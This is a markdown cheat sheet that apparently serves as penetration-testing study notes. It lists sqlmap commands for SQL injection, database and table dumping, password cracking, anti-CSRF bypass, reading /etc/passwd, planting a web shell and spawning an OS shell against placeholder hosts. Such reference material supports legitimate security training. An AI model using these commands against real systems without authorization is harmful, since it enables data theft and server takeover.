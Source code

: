 # SQLMAP Essentials  


| **Command** | **Description** |
| ------------- | ------------- |
| `sqlmap -h` | View the basic help menu |
| `sqlmap -hh` | View the advanced help menu |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch` | Run `SQLMap` without asking for user input |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'` | `SQLMap` with POST request |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt` | Passing an HTTP request file to `SQLMap` |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header |
| `sqlmap -u www.target.com --data='id=1' --method PUT` | Specifying a PUT request |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5` | Specifying the level and risk |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --schema` | Database schema enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user` | Searching for data |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass |
| `sqlmap --list-tampers` | List all tamper scripts |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell` | Spawning an OS shell |
